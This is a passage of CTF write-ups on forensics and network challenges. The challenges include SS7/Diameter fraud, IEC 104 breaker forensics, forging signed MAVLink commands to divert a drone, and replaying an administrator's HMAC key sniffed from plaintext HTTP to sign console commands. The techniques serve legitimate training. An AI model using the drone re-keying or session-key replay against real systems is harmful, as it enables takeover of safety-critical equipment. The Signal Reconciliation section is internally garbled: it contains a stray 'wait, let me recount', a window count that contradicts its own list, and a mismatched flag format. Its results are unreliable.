| Page threshold | 30 minutes | 90 minutes |
| Breached vials | MUST be quarantined, MUST NOT be redistributed | may be returned to distribution at depot-supervisor discretion |
| Authorization | `CSCTF{...}` (original) | another `CSCTF{...}` (fresh one) |

`comments.xml` has `s.kessler`'s own justification: "dropping the quarantine hold … Re-issuing under a fresh authorization". So the safety-critical instruction was reversed and the authorization swapped. The inserted `CSCTF{...}` is a decoy: the task asks for the **original** one.

One more trap: the deleted authorization is split across two `w:del` runs (ids 107 and 108), so a text search for a full `CSCTF{...}` in the XML finds only the inserted one; the two `w:delText` pieces must be concatenated.

**3. Exploitation — rebuild the original paragraph from the XML**

The script reads `document.xml`, rebuilds the *original* text (plain runs + `w:delText`) and the *delivered* one (plain runs + inserted `w:t`), prints the metadata and the comment, and extracts the flag from the original version:

```bash
python3 -I solve/solve.py files/CC-11_excursion_directive.docx
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Word's "accept all changes" is not a sanitizer in the file: the original text lives on in `w:del` until someone accepts and saves; metadata (`lastModifiedBy`, revision) and comments tell the who and why.
- Rendered views (Word, LibreOffice) can hide or merge this; reading the raw XML is more reliable and lets you spot content split across runs.
- Two lookalike flags in the same paragraph: always check which one the question asks for (original vs. delivered).
- The file was handled as data only (unzip + XML parsing), never opened in Word.

#### Tools & references

- `unzip`, Python 3 (`zipfile`, `xml.etree`)
- Office Open XML WordprocessingML: `w:ins`, `w:del`, `w:delText`, comments, core properties


### Signal Reconciliation

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 51 | ✅ | — | no | 0xAr3s-root | — |

#### Challenge description

> A state-linked actor altered a fictional reconnaissance receiver feed during mobilisation.
> Before the receiver profile is reused for recovery routing and civil-defence logistics
> coordination, reconcile its local-position export with the independently integrated
> local-navigation series and produce the complete response-cell record.
>
> Attachment: `signal-reconciliation.zip` — 13,341 bytes;
> SHA-256 `ea09de452b798a834f1da524c9e71b0d03b51a408b4c8285f2a489b33f951633`.
>
> Flag format: `CSCTF{BASE32_192_BIT_DIGEST}`.

**Artifact files:** `files/flight.ndjson` (not committed)

#### TL;DR

Follow the `reconciliation-sop.txt` spec exactly: INS integration → residuals → qualifying-window enumeration → decision → canonical 603-line report → Base32 of first 24 bytes of SHA-256.

#### Approach

**1. Parsing the inputs**

The zip contains:
- `flight.ndjson` — 601 JSON lines: `{i, t_ms, ve_mmps, vn_mmps, gps_e_mm, gps_n_mm}`
- `reconciliation-sop.txt` — complete algorithm spec
- `manifest.txt` — SHA-256 hashes of all files (integrity check)
- `mission-note.txt` — flavour / context

**2. INS reconstruction (exact integer arithmetic)**

```
ins_e[0] = ins_n[0] = 0
for i in 0..599:
    ins_e[i+1] = ins_e[i] + (ve[i] + ve[i+1]) // 20
    ins_n[i+1] = ins_n[i] + (vn[i] + vn[i+1]) // 20
res_e[i] = gps_e[i] - ins_e[i]
res_n[i] = gps_n[i] - ins_n[i]
```

Key requirement: no floating point, no rounding — Python's integer `//` is exact here.

**3. Qualifying window inventory**

`Q(i)` is true iff for a 10-sample window starting at `i`:
- All samples have distance ≥ 25 000 mm from origin: `res_e²+res_n² ≥ 625 000 000`
- East residual is monotonically increasing by ≥ 1 000 mm/step
- North residual changes by ≤ 500 mm/step

18 qualifying windows found: `5,35,50,66,84,95,182,214,247,287,331,365,403,420,453,465,542,567,588` — wait, let me recount: **18 entries** starting at those indices.

**4. Decision**

Final residuals: `res_e[600] = 100 000 mm`, `res_n[600] = 1 000 mm`  
`final_dist² = 10 001 000 000 ≥ 10 000 000 000` → threshold met.  
QSET is non-empty → **`QUARANTINE_GNSS_PROFILE`**

**5. Canonical report and flag**

```
603 lines:
  RECONCILIATION/2|samples=601|qset=5,35,...,588|decision=QUARANTINE_GNSS_PROFILE
  E|0|0|0|0|0|0|0|0
  E|1|100|...
  ...
  SUMMARY|qset=5,35,...,588|final_res_e=100000|final_res_n=1000|decision=QUARANTINE_GNSS_PROFILE
```

KAT verified: all-zero input → 14 329 bytes, SHA-256 = `cc8c52dc…` ✓

```bash
python3 solve/solve.py files/flight.ndjson
```

```
[+] Base32(24B)  : EOSL5C6VZ54TN2PWXUO2B5TVHMVY5G3NWPILLYY
[+] FLAG         : flag{...}
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}`

#### Reflections

- The SOP is exhaustive — the challenge is really about reading carefully and implementing exactly.
- The KAT test vector is invaluable: it lets you verify the report format and byte count before
  computing the real answer.
- "Exact integer division" means Python's `//` (floor division), which works cleanly here
  because the sums are always divisible by 20.
- The flag is a 192-bit (24-byte) truncated SHA-256, Base32-encoded — no padding (`=`) as
  specified by RFC 4648 for unpadded encoding.

#### Tools & references

- Python 3 (`json`, `hashlib`, `base64`)
- [RFC 4648 — Base32 encoding](https://datatracker.ietf.org/doc/html/rfc4648)
- Trapezoidal integration (INS dead-reckoning)


### Silent Breaker

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 81 | ✅ | — | no | 0xAr3s-root | Dan-Andrei Grigorescu |

#### Challenge description

> A regional substation breaker tripped without warning. You have console access to Velkarion Mobile's signaling investigation tool and a forensic bundle from the substation's IEC 60870-5-104 network. Reconstruct what happened and who is responsible.
>
> Endpoint: GET /events for the flagged-signaling feed; start at GET /files/ for the case-file index and report contract; submit the completed report to POST /submit.
>
> Flag format: `CSCTF{...}`

**Artifact files:** downloaded from the instance's `/files/` index: `README.md` (report contract), `description.md`, `roster.json`, `iec104_capture.pcap`, `hmi_monitoring.log` (not committed). Live instance `http://w01.ctf.chronos-security.ro:39328` (30-minute lifetime, expired); each launch is a different case with different data.

#### TL;DR

Join the signalling events from a non-legitimate GT with the staff roster to find the employee with OT-VPN access, read the breaker `ON` command (IOA, qualifier, wire time) in the IEC 104 pcap, take the frozen current from the `QUALITY=SUSPECT` run of the historian log, and submit these five values with the employee's VPN session id; the service returns the flag as `clearance_code`.

#### Approach

**1. Recon — read the contract before touching the console**

`GET /files/` lists the case files and a contract (`/files/README.md`) that defines everything: `/events` (free), `/query/subscriber` and `/query/vpn-window` (budgeted), `POST /confirm-target` (**2 attempts**, correct target unlocks the VPN route) and `POST /submit` (**5 complete reports**, pass/fail only). The report has five fields: `ioa_address`, `command_qualifier`, `command_time_utc` (wire time, not VPN start), `telemetry_status` (frozen current of the suspect run) and `vpn_session_id`. Because attempts are scarce, every value must be derived offline before submitting.

**2. Hypothesis — four independent sources give the five fields**

- **Who**: `/events` says any GT outside `GT-0000..GT-0999` is not a legitimate peer. Six events come from `GT-7779-Q22` (UpdateLocation / SendRoutingInfoForSM) for six MSISDNs. Matching them against `roster.json`: only **Sanda Ionescu, `VLK-1944-ION`, OT Field Engineering**, has `ot_vpn_access: true`; the others (Finance, HR, Legal, Customer Care) cannot reach the OT VPN. Two `/query/subscriber` lookups confirmed both numbers I tried were watchlisted (budget 8).
- **What was sent**: in the pcap (TCP 2404), among regular `M_ME_NC_1` reports (type 13, IOA `0x21fb`) one frame goes the other way, master → RTU, at 08:55:36 UTC: `68 0e … 2d 01 06 00 01 00 fb 21 00 01` = type 45 `C_SC_NA_1` (single command), COT 6 (activation), IOA bytes `fb 21 00` = **0x21fb**, SCO `01` = **ON**; the RTU answers with COT 7 (activation confirmation) at the same second. So the command time is **08:55** (the report wants `HH:MM`).
- **Forged current**: `hmi_monitoring.log` shows normal readings of about 452–455 A (±1.5 A), then from 08:54:40 a constant **426.0 A** that the historian marks `QUALITY=SUSPECT` from 08:55:00 until 08:57:30 (the first two identical readings are still `GOOD` since the rule needs three). On the wire, the RTU's own readings keep varying and return to about 453 A, so 426.0 A is a held/replayed historian record, not a live value: `telemetry_status = 426.0`.
- **Which session**: given only after a correct `/confirm-target`.

**3. Exploitation — confirm the target, get the session, submit**

```bash
python3 -I solve/solve.py http://<target>            # derive and print the report (GET only)
python3 -I solve/solve.py http://<target> --submit   # confirm-target + vpn-window + submit
```

`/confirm-target {"employee_id":"VLK-1944-ION"}` returned `confirmed`, and `/query/vpn-window` listed five sessions; the one for `VLK-1944-ION` is `VPN-914973` (Access-Accept at 08:21:41 with an OTP challenge, source IP `203.0.113.197`). It is a different session from the ones opened at 08:55 or later by other users, which are decoys timed close to the command. The first complete report was accepted (4 attempts left) and returned the flag.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Read the contract first: with 2 and 5 attempts, deriving the answers offline from the evidence is the whole game, so no guessing was needed.
- Do not take the VPN session that starts closest to the command; the report asks for the session of the compromised employee, whose start is earlier (the statement says "wire time of the command, not VPN session start").
- A historian-side `SUSPECT` marker lives in the log, not on the wire: the pcap shows the RTU kept reporting live values, which is what proves the displayed 426.0 A was frozen.
- The solve script derives every field from the instance's own files, since a relaunch gives a new case.

#### Tools & references

- `curl`, `tshark` (to list frames), Python 3 (`urllib`, `struct`, own pcap parsing)
- IEC 60870-5-104 / IEC 60870-5-101 ASDU: types 13 (`M_ME_NC_1`) and 45 (`C_SC_NA_1`), causes of transmission 6/7


### Tone Burst

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 113 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> A field relay's outage-training archive holds a short audio test burst. The operator note says it carries the last recovered relay identifier, but the text export is gone. The network belongs to an allied army serving in Operation Dawn.
>
> Recover the identifier from the supplied WAV. This is a software-generated training signal, not a captured transmission, and no playback or external service is required: analyze the waveform visually or with code.
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/tone-burst.wav` (not committed).

#### TL;DR

The WAV is a 2-FSK signal (1000 Hz = 0, 2000 Hz = 1, 50 baud, 8 kHz sampling): demodulating it gives a `AA AA AA AA 7E` preamble/sync followed by the ASCII flag.

#### Approach

**1. Recon — a 9-second mono WAV with two tones**

The header gives 8000 Hz, 16-bit, mono, 73,600 frames (9.2 s). Short-time FFT windows (50 ms) show: low-level noise for the first 0.2 s, then an almost constant-amplitude signal (RMS ≈ 13,900) whose dominant frequency jumps between **1000 Hz** and **2000 Hz**, then noise again after 9.04 s. Two tones at constant amplitude = binary FSK.

**2. Hypothesis — find the symbol rate from the tone changes**

I demodulated by multiplying by `e^(-2πjft)` for f = 1000 and 2000 and smoothing with a 16-sample moving average; the sign of `|S2000| − |S1000|` gives a bit stream at the sample rate. Counting the gaps between tone changes, the most common values are 160 samples and its multiples (320, 480, 640): the symbol period is 160 samples = 20 ms, i.e. **50 baud**. (A first attempt with zero-crossing counting was too noisy to be reliable, so I switched to the spectral method.)

**3. Exploitation — sample each bit and read it as ASCII**

Sampling the middle of each 160-sample slot from t ≈ 0.2 s gives 445 bits. The beginning is `0010 1010 1010 …` → a classic `0xAA` preamble (alternating 1010…) then `0x7E` sync, then plain 8-bit MSB-first ASCII text with 1 = 2000 Hz. Trying the 8 byte alignments and checking which one is printable finds the right one immediately; the decoded message ends with `}` and is the flag.

```bash
python3 -I solve/solve.py files/tone-burst.wav
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- For tone-based signals, measure the symbol rate from the distribution of run lengths before choosing a decoder; the most frequent gap and its multiples reveal it.
- Complex demodulation + moving average is much more robust than zero-crossing counting on a noisy signal.
- Alternating `AA` preambles and a `7E` sync byte are common framing hints: they confirm bit order and alignment.
- No audio was played; everything was done on the samples.

#### Tools & references

- Python 3 with NumPy (FFT, complex demodulation), `wave`
- Binary FSK / asynchronous framing basics (preamble, sync byte)


## Network

### Dark Anchorage Reconciliation

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| network | 101 | ✅ | — | yes | 0xAr3s-root | Chronos Security |

#### Challenge description

> Kaldura, an Operation Dawn ally, carries coalition traffic over the KALNET-1 cable, and KALNET-1 failed just as a hostile maritime operation was expected near the cable corridor. AIS says no suspicious vessel crossed the fault envelope, yet coastal radar recorded anonymous contacts on a different clock.
>
> Produce the complete sensor-reconciliation report that identifies the false broadcast, quantifies the displacement and establishes the actual closest approach. Read `GET /schema` for the report format. The four evidence files are `GET /files/ais.ndjson`, `GET /files/radar.csv`, `GET /files/cable-fault.txt` and `GET /files/method-note.txt`. Submit one complete report to `POST /reconcile`; a correct report returns the reconciliation code.
>
> Flag format: `CSCTF{...}`

Hint: *Normalize the declared radar clock, then score every radar/AIS association across its whole paired trajectory, not at one point near the cable.*

**Artifact files:** live instance only (`http://<target>:<port>/`, expired); the four evidence files are served by it.

#### TL;DR

Subtract the radar header offset (180 min) to pair radar and AIS samples, match the 16 tracks by median residual, find the one AIS track that drifts by (330, 330) m for 4 samples, compute the radar-only segment CPA to the cable point, and POST the report — the hard part is the undocumented JSON shape, where the vector must be two separate members.

#### Approach

**1. Recon — the method note is the spec**

`method-note.txt` gives the whole algorithm: radar `local_time` = UTC + header offset (`# radar_utc_offset_minutes=180`), pair equal normalized UTC samples, local plane around the cable point (`east=R·cos(lat0)·Δlon`, `north=R·Δlat`, R=6378137), score by median residual, longest ≥4-sample run with residual ≥250 m and component steps ≤15 m for the divergence, radar-only segment CPA with clamped projection. `/schema` lists member names and tolerances (3 m, 2 s) but **no example body**.

**2. Hypothesis — a full bijection with a trivially low score, one liar**

With the offset subtracted, every radar track R-01..R-16 matches exactly one AIS MMSI with a median residual of 0 m (wrong pairs are ≥180 m, so there is no ambiguity). Looking at per-sample residuals instead of the median finds the liar: R-03 / MMSI `979103829` is 466.7 m off — exactly (330 m E, 330 m N) — at 10:26, 10:28, 10:30 and 10:32 UTC. Radar-only CPA over all segments is R-03 itself, passing through the cable point on the 10:30→10:32 segment at u≈0.818.

**3. Exploitation — getting the report accepted**

`POST /reconcile` answered `400 invalid report` to everything, with no hint (a semantic mismatch would be `422 report not accepted`). 400 vs 422 is the oracle: I swept ~350 shapes (associations as objects/strings/dict, interval as two keys or a list, vector as list/object, string offsets, wrappers) until one returned 422. The accepted shape:

```json
{"version":"KALNET-RECON-1","radar_utc_offset_minutes":180,
 "associations":[{"radar_track":"R-01","mmsi":"<9 digits>"}, "... x16"],
 "divergence":{"mmsi":"<9 digits>","start_utc":"...Z","end_utc":"...Z",
               "ais_minus_radar_east_m":330,"ais_minus_radar_north_m":330},
 "closest_approach":{"mmsi":"<9 digits>","utc":"...Z","distance_m":0.0}}
```

The remaining 422 was my own bug: I converted the CPA time with `datetime.timestamp()` on a naive datetime, which shifted it by my local timezone (09:31:38 instead of 10:31:38). Using `calendar.timegm` fixed it and the server returned the flag.

```bash
python3 solve/solve.py http://<target>:<port> --post
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- When an API gives no example, status codes are the oracle: the 400 → 422 transition proves the *structure* is right before the *values* are checked. Sweep shapes with a thread pool and print only non-400 answers.
- Do not trust a "validation" that fails on both structure and values at once: after finding the shape, a second bug (timezone) was still hiding. Verify derived values against the data (the CPA time had to fall in the 10:30–10:32 segment, not 09:31).
- Always use timezone-explicit time functions (`calendar.timegm`, `timezone.utc`); naive `timestamp()` silently uses the machine timezone.

#### Tools & references

- Python 3 (`urllib`, `csv`, `statistics`, `concurrent.futures`), `curl`
- Local tangent-plane projection, segment closest-point-of-approach formula from `method-note.txt`


### Ghost Signal

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| network | 145 | ✅ | — | yes | 0xAr3s-root | Dragoş Bacitea |

#### Challenge description

> A telecom operator is seeing fraudulent roaming activity and disputed billing events. Investigators recovered SS7 signalling, Diameter sessions, and the related billing export.
>
> Reconstruct the intrusion chain from those records and recover its marker. This is a constructed, offline protocol-forensics case.
>
> Attachments: `ss7_capture.pcap`, `diameter_capture.pcap`, `billing_events.json`.
>
> Flag format: `CSCTF{8_lowercase_hex}`
>
> Flag construction: SHA-256 the literal text `<IMSI>:<SESSION_ID>:<FIRST_ANOMALOUS_BILLING_TIMESTAMP>`, then use the first 8 lowercase hex characters. Use the values exactly as written in the evidence and literal `:` separators.
>
> Flag derivation (serialization spec): `sha256("<imsi>:<full_diameter_session_id>:<unix_timestamp>")[:8]`, lowercase hex. `imsi` = the anomalous IMSI as decimal (e.g. `226012014000001`). `full_diameter_session_id` = the entire Session-Id including dots and semicolons (e.g. `host.example.com;seconds;id`), not just the GT fragment. `unix_timestamp` = unix seconds (integer) of the first anomalous billing event, not ISO. Fields joined as strings with `:` between them. No hosts, no GTs, no event ids.
>
> Hint: Several capture files were pulled from different networks during the same incident. Start by cataloguing what each file records, then hunt for the single thread that runs through all of them.

**Artifact files:** the three files above (not committed).

#### TL;DR

One IMSI (`226012014000001`) and one Diameter `Session-Id` (`hss.eastern-tele.ro;1723740150;49211`) appear, byte-for-byte identical, in all three records — the SS7 capture's `updateLocation`, the Diameter capture's AVPs, and the billing export's anomalous rows. Serializing that IMSI, that full session id and the timestamp of the first anomalous billing row (`1723740150`) and hashing it gives the flag.

#### Approach

**1. Recon — catalogue each file on its own**

- `billing_events.json`: a Diameter OCS export for `eastern-tele.ro`, 40 events. 30 ordinary `CCR-A` rows (one IMSI each, `2260120140002000`…`2260120140002011` cycling, i.e. 16-digit synthetic subscriber ids) interleaved with two short anomalous bursts: 5 `CCR-I` rows (`atk_0000`…`atk_0004`, `charging_amount: 0.0`, `anomaly: "zero_charge_on_roaming"`, `redirect_host: "intercept-49211.evil-domain.net"`) and 5 `CCA` rows (`pivot_0000`…`pivot_0004`, `anomaly: "unusual_routing_path"`, `serving_cscf: "cscf.pivot.eastern-tele.ro"`, `redirect_host: "redirect-49211.evil-domain.net"`). All ten share one `imsi` (`226012014000001`, 15 digits — a real-looking IMSI, unlike the synthetic baseline ones) and one `session_id`: `hss.eastern-tele.ro;1723740150;49211`.
- `ss7_capture.pcap`: GSM MAP over M3UA/SCCP. A baseline of `sendRoutingInfo`/`sendRoutingInfoForSM` queries runs with the calling-party Global Title climbing steadily, `49100`→`49144` (routine roaming partners). At `t=150` the calling GT jumps to **`49211`** for a burst of `sendRoutingInfo`/`sendRoutingInfoForSM` queries against `+40721000101`…`+40721000105` — the exact numbers targeted by the `atk_000x` billing rows. From `t=190` the calling GT moves again to `49311` and issues `updateLocation` for IMSI **`226012014000001`** — the attacker re-registering that subscriber's location, the actual hijack.
- `diameter_capture.pcap`: Cx/Ro-style Diameter. Ordinary sessions have `Origin-Host` = the serving `cscfN.eastern-tele.ro` and `Session-Id` = `hss.eastern-tele.ro;<ts>;<n>` with `n` counting up normally. One session stands apart: `Session-Id = hss.eastern-tele.ro;1723740150;49211`, with requests from `Origin-Host = cscf.rogue.evil-domain.net` and an answer naming `cscf.pivot.eastern-tele.ro` as serving CSCF — matching the billing export's `pivot_*` rows exactly. Its `Subscription-Id-Data` AVP is `226012014000001`.

**2. Hypothesis — the hint says to find the thread, not to trust any single file**

Each file on its own only shows part of the picture (a GT, a rogue host, an anomaly tag); the brief and hint explicitly ask to reconcile them. Checking that there is exactly **one** anomalous IMSI and **one** anomalous `session_id` across the whole billing export (`set` of each has size 1) rules out ambiguity, and the same IMSI and the same `49211` fragment of the session id are the values that appear, unchanged, in the SS7 capture (`e212.imsi` in the `updateLocation`) and in the Diameter capture (`Subscription-Id-Data`, and the `49211` suffix of `Session-Id`). That is the "single thread": GT `49211` ran the Diameter-side billing fraud and routing reconnaissance, GT `49311` carried out the SS7-side location hijack, and the one subscriber IMSI ties both to the same victim — three independent captures of the same incident, cross-validated rather than taken on faith.

The spec is explicit about what *not* to use: no hostnames, no GTs, no event ids — only the IMSI, the full `Session-Id` string (dots, semicolons and all), and the Unix timestamp of the first anomalous billing row, which is `atk_0000` at `1723740150` (also, not coincidentally, the timestamp embedded in the session id itself).

**3. Exploitation — serialize and hash**

```text
226012014000001:hss.eastern-tele.ro;1723740150;49211:1723740150
```

```bash
python3 -I solve/solve.py files
```

The script re-derives the anomalous IMSI/session/timestamp from the JSON alone, then cross-checks both pcaps with `tshark` field extraction to confirm the same IMSI and the same `Session-Id` are present on the wire before hashing.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Three files from "different networks" describing one incident is a cross-validation exercise: the right answer is whatever value is identical, byte-for-byte, in all of them, not whatever looks most suspicious in a single file.
- A deliberately rising baseline (GTs `49100`→`49144`, synthetic IMSIs `…002000`→`…002011`) makes the one-off, out-of-sequence values (`49211`, `49311`, a 15-digit real-looking IMSI) stand out without needing a packet-by-packet read.
- The two attacker GTs (`49211` for Diameter fraud/recon, `49311` for the SS7 location hijack) are not the same value and neither alone is "the" answer; the flag format explicitly excludes GTs for that reason — the IMSI and the full session id are what actually corroborate across protocols.
- `full_diameter_session_id` means exactly that: the whole AVP string with its separators, not just the trailing counter that happens to match a GT.

#### Tools & references

- `tshark` (`-T fields`) for both pcaps, Python 3 (`json`, `hashlib`, `subprocess`)
- GSM MAP (`sendRoutingInfo`, `sendRoutingInfoForSM`, `updateLocation`) over SS7/M3UA; Diameter Session-Id / Subscription-Id-Data AVPs (3GPP Cx/Ro-style exchanges)


### Grid Watch

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| network | 75 | ✅ | — | no | 0xAr3s-root | Marius Merai |

#### Challenge description

> Vultur Dynamics drones patrol the RGN-Grid high-voltage network. An adversary wants one diverted off its corridor. You have a packet capture of a drone's MAVLink 2 command link and live access to the drone itself. Make the drone accept your own reposition command. Unsigned and replayed commands are refused — the flag returns only from a command the drone actually accepts.
>
> Interact only with your assigned instance.
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/capture.tlog`, `files/provisioning_note.md` (not committed). Live instance: TCP `w02.ctf.chronos-security.ro:32773` (expired).

#### TL;DR

The drone only accepts MAVLink 2 signed commands, with a custom clock: calibrating the RTC from the capture (+17 ppm, commissioning epoch 1733965123) lets me derive the provisioning key by HKDF from the per-connection nonce, re-provision my own signing key with `SETUP_SIGNING`, then — signed with that key — set GUIDED, arm, and send `DO_REPOSITION`, which returns the flag.

#### Approach

**1. Recon — a signed link, a calibration problem and a back door with a derived key**

`capture.tlog` holds 24 MAVLink 2 signed packets (GCS 255/190 ↔ drone 1/1, link_id 249): heartbeats, `STATUSTEXT` announcing the serial `CX-FALCON-9951`, a `COMMAND_LONG 511`, `GLOBAL_POSITION_INT` reports. Every packet carries a 13-byte signature (link_id, 48-bit timestamp in 10 µs ticks, SHA256-48), so replaying the capture is useless: timestamps are checked and the session key is not in the capture.

`provisioning_note.md` is the way in: keys can be re-provisioned with `SETUP_SIGNING`, authenticated by `prov_key = HKDF-SHA256(ikm = serial_ascii || commissioning_epoch_le64, salt = session_nonce, info = "CX-PROV/v1", L = 32)`. The serial is known; the nonce is announced at connect (`PROV NONCE …`); what is missing is the commissioning epoch — and any timestamp I sign with must match the drone's odd RTC (ticks since the commissioning epoch, *not* the MAVLink 2015 epoch, with a per-unit offset and ppm drift to calibrate).

**2. Hypothesis — the capture's two clocks give the epoch and the drift**

Each tlog record has a host timestamp (µs), and each packet a signing timestamp. Pairing them: the signing timestamps grow by 3,100,052–3,100,053 ticks per 31.000000 s of host time, a constant slope of **100001.7 ticks/s = +17 ppm**. With that slope, `signing_ticks = round((unix_time − E)·100001.7)` fits all 24 packets to within half a tick for **E = 1733965123** (2024-12-12 00:58:43 UTC) and zero extra offset. I validated the model live before using it: predicted signing timestamps bracketed the drone's own signature timestamps at connect (before/after the round trip). That fixes both HKDF's epoch input and the clock for every packet I forge.

The drone's own error messages then mapped the rest of the protocol: an unsigned `SETUP_SIGNING` → `REJECT: unsigned message`; a `SET_MODE` message → `REJECT: not a command for this drone` (it only takes `COMMAND_LONG`); arming before GUIDED → `REJECT: must be in GUIDED before arming`; command 512 → `REJECT: unexpected command 512`, while **192 is its `DO_REPOSITION`** (`REJECT: DO_REPOSITION requires GUIDED + ARMED`). So the flight order from the note — GUIDED, arm, command — is enforced literally.

**3. Exploitation — re-provision, then fly the normal order, all in one connection**

The nonce is per-connection, so everything happens on a single TCP connection, each packet signed with `SHA256-48(key ‖ packet ‖ link_id ‖ timestamp)` and a fresh, monotonically increasing RTC timestamp:

1. Read `PROV NONCE`, compute `prov_key` by HKDF (salt = nonce as raw bytes from hex).
2. `SETUP_SIGNING` (msg 256): a new session key of my choice (the script uses `SHA256("gridwatch-session-key-v1")`, any 32 bytes work), `initial_timestamp` = its own signature timestamp, packet signed with `prov_key` → `signing re-provisioned: new key active`.
3. Signed with the new key: `COMMAND_LONG 176` (`DO_SET_MODE`, param1=1, param2=4) → `mode GUIDED`; `COMMAND_LONG 400` (arm, param1=1) → `ARMED`; `COMMAND_LONG 192` (`DO_REPOSITION`, param5/6/7 = 45.6 / 24.1 / 100) → `COMMAND_ACK` plus a `STATUSTEXT` carrying the flag.

```bash
pip install pymavlink
python3 solve/solve.py w02.ctf.chronos-security.ro 32773
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- The capture is not there to be replayed but to be *measured*: two timestamps per packet are enough to recover the RTC's epoch and ppm drift exactly (residuals under half a tick over 24 packets).
- I checked the clock model against the live drone before sending anything forged — a wrong epoch also breaks the HKDF input, so that one fit unlocks both the key and the timestamps.
- The server's rejection messages are a specification: each failed probe (`SET_MODE`, 512, arming early) removed one unknown, leaving 176 → 400 → 192 as the only accepted order.
- Everything must share one connection because the HKDF salt (the nonce) is announced per connection.

#### Tools & references

- Python 3 + pymavlink (common dialect, message packing / CRC extras), `hashlib`/`hmac` for HKDF-SHA256 and SHA256-48 signatures
- MAVLink 2 packet signing and `SETUP_SIGNING` (message 256), `COMMAND_LONG` commands 176 / 400 / 192


### Hard Landing

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| network | 86 | ✅ | — | no | 0xAr3s-root | Teodor Giurgica |

#### Challenge description

> A flight-safety console that supports an allied air base in the Operation Dawn theatre accepted destructive commands from a workstation its administrator never used. New logins are disabled, but the exposed session is still live.
>
> Review the incident capture and access log, recover the administrator's session material, then issue the documented safe recovery command with a fresh valid signature. The live console returns the recovery code only after authenticating that command.

**Artifact files:** `files/hard-landing.zip` → `console.pcapng`, `console_access.log`, `ops_notes.txt` (not committed)
**Target:** a timed live instance (`http://w03.ctf.chronos-security.ro:PORT`, 30 min TTL)

#### TL;DR

The console authenticates commands with a session-bound HMAC-SHA256, but the login step that hands out the session ID *and* the HMAC key runs over plaintext HTTP. The capture shows the administrator logging in from `192.0.2.11`; both `session` and `key` are visible in the `/api/login` response. Three destructive commands are then replayed with that same session from a different host, `192.0.2.14` — a textbook session/key theft off the wire, not a credential guess. `GET /api/status` on the live console documents the canonical string to sign and the safe recovery command (`RETURN_TO_PAD`). Signing it with the stolen key returns the flag.

#### Approach

**1. Recon — triage the three files**

```bash
unzip -l hard-landing.zip
# console.pcapng         full HTTP capture of the incident window
# console_access.log     application-level audit log
# ops_notes.txt          incident handoff notes
```

`console_access.log` immediately shows the anomaly:

```
11:22:00Z LOGIN   src=192.0.2.11 role=administrator session=adm-2aca3785b702d3ef824b9cb8 result=issued
11:22:08Z COMMAND src=192.0.2.11 session=adm-2aca...                command=STATUS              result=accepted
11:23:00Z COMMAND src=192.0.2.14 session=adm-2aca...                command=DISABLE_SAFETY_LINK result=accepted
11:23:06Z COMMAND src=192.0.2.14 session=adm-2aca...                command=DIVERT_FROM_CORRIDOR result=accepted
11:23:12Z COMMAND src=192.0.2.14 session=adm-2aca...                command=SUPPRESS_RECOVERY   result=accepted
11:23:17Z AIRCRAFT_LINK_LOST src=192.0.2.20 aircraft=N17 result=recorded
```

The same admin session is used from two different IPs. `192.0.2.14` never logged in — it reused credentials that leaked somewhere else. `ops_notes.txt` confirms the console speaks plain HTTP and that commands are authenticated with a session-bound HMAC-SHA256 signature with a freshness window.

**2. Pull the leaked session + key from the pcap**

```bash
tshark -r console.pcapng -Y http -T fields \
  -e frame.number -e ip.src -e ip.dst \
  -e http.request.method -e http.request.uri -e http.file_data
```

The `/api/login` response for the administrator (sent in clear text) is:

```json
{"session":"adm-2aca3785b702d3ef824b9cb8",
 "key":"2aca3785b702d3ef824b9cb870481e04e1179b09172a1f9da3710e6bb2a759f1",
 "role":"administrator"}
```

Both the session ID and the raw HMAC key (64 lowercase hex chars = 32 bytes) are on the wire. No TLS, no secrecy — anyone on-path between `192.0.2.11` and the console at the time of login can lift them, which is exactly how `192.0.2.14` got in.

**3. Query the live console for the exact request format**

```bash
curl -s http://w03.ctf.chronos-security.ro:PORT/api/status | jq
```

```json
{
  "request": {
    "method": "POST",
    "path": "/api/command",
    "headers": ["X-Session", "X-Timestamp (Unix seconds)", "X-Signature (64 lowercase hexadecimal characters)"],
    "canonical": "POST\n/api/command\n<X-Timestamp>\n<BODY>",
    "hmac": "HMAC-SHA256; decode the login JSON's exactly 64 lowercase hexadecimal key characters to 32 bytes before use",
    "body": "{\"cmd\":\"RETURN_TO_PAD\",\"pad\":\"A1\"}"
  }
}
```

**4. Forge a freshly signed safe-recovery command**

```python
body = '{"cmd":"RETURN_TO_PAD","pad":"A1"}'
ts = str(int(time.time()))
canonical = f"POST\n/api/command\n{ts}\n{body}"
sig = hmac.new(bytes.fromhex(key_hex), canonical.encode(), hashlib.sha256).hexdigest()
# POST /api/command with X-Session, X-Timestamp, X-Signature
```

The console validates the signature and freshness window, executes `RETURN_TO_PAD`, and returns the flag in `recovery_receipt` (redacted here; see `solve/solve.py`).

#### Key takeaways

- Authenticating requests with HMAC is worthless if the key itself is handed out over an unencrypted channel at login — TLS protects the *key exchange*, not just the commands.
